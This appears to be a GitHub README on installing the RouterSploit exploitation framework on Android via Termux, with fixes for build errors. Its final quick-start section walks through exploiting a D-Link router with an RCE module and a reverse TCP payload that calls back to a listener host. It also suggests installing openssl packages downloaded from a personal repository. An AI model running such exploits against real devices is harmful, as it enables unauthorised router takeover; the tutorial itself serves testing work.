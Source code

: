 ### Setup RouterSploit on Android 


<img src="https://github.com/desword/shellcode_tools/blob/master/img/android_sploit.jpg" width = 50% height = 50% div align=center />

* RouterSploit
	* RouterSploit is a Exploitation Framework for Embedded Devices
	* https://github.com/threat9/routersploit

* download termux
    * https://cn.apksum.com/down/com.termux_0.65_free
    * install python on termux
        * https://wiki.termux.com/wiki/Python
	* The default python of termux is python3, therefore it should work for routersploit.
	
* Basic install command
	* git clone https://www.github.com/threat9/routersploit
	* cd routersploit
	* pip install -r requirements.txt
* Errors when install routersploit on termux
    * errors of compiling cffi
		* [ref] https://github.com/termux/termux-packages/issues/1964
			* pkg install clang
		* if file "ffi.h" can not find,then 
			* apt search ffi 
			* apt install libffi libffi-dev
		* Then the cffi should be installed successfully.
	* errors of ,Issue installing cryptography (due to openssl built with no-engine) all about the openssl
		* [ref] https://github.com/termux/termux-packages/issues/2847
		* install the following old version of openssl, and it should work.
			* OpenSSL without no-engine config for AArch64: (in my test on HUAWEI MATE 8, the following packages should work)
				* [openssl_1.1.1-2_aarch64.deb.gz](https://github.com/desword/shellcode_tools/raw/master/Android_routersploit/openssl_1.1.1-2_aarch64.deb.gz)
				* [openssl-dev_1.1.1-2_aarch64.deb.gz](https://github.com/desword/shellcode_tools/raw/master/Android_routersploit/openssl-dev_1.1.1-2_aarch64.deb.gz)
				* [openssl-tool_1.1.1-2_aarch64.deb.gz](https://github.com/desword/shellcode_tools/raw/master/Android_routersploit/openssl-tool_1.1.1-2_aarch64.deb.gz)
			* OpenSSL without no-engine config for arm:
				* openssl_1.1.1-2_arm.deb.gz
				* openssl-dev_1.1.1-2_arm.deb.gz
				* openssl-tool_1.1.1-2_arm.deb.gz
			* download 
				* using wget to download the above packages.
				* wget https://github.com/desword/shellcode_tools/raw/master/Android_routersploit/openssl_1.1.1-2_aarch64.deb.gz
				* wget https://github.com/desword/shellcode_tools/raw/master/Android_routersploit/openssl-dev_1.1.1-2_aarch64.deb.gz
				* wget https://github.com/desword/shellcode_tools/raw/master/Android_routersploit/openssl-tool_1.1.1-2_aarch64.deb.gz
			* [CMD]
				* gunzip openssl_1.1.1-2_arm.deb.gz
				* gunzip openssl-dev_1.1.1-2_arm.deb.gz
				* gunzip openssl-tool_1.1.1-2_arm.deb.gz
				* dpkg -i openssl_1.1.1-2_arm.deb
				* dpkg -i openssl-dev_1.1.1-2_arm.deb
				* dpkg -i openssl-tool_1.1.1-2_arm.deb
	* Quick keyboards
		* using tab (volum +, and t)
		* show all keyboards (volum +, and q)
		* cursor left/right (volum +, and a/d) 
		* previous/latter commands (volum +, and w/s)
* quick start for RouterSploit
	* python rsf.py
	* use scanner/autopwn
	* set target 192.168.1.1
	* rsf (AutoPwn) > use exploits/routers/dlink/dsl_2750b_rce                                                        
	* rsf (D-Link DSL-2750B RCE) > set target 192.168.1.1                                                             
	* [+] target => 192.168.1.1                                                                                       
	* rsf (D-Link DSL-2750B RCE) > check                                                                              
	* [+] Target is vulnerable                                                                                        
	* rsf (D-Link DSL-2750B RCE) > run
	* cmd > show payloads
	* cmd > set payload reverse_tcp                                                                                   
	* cmd (MIPSBE Reverse TCP) > show options 
	* cmd (MIPSBE Reverse TCP) > set lhost 192.168.1.10
	* cmd (MIPSBE Reverse TCP) > run
	
		
			
			
			
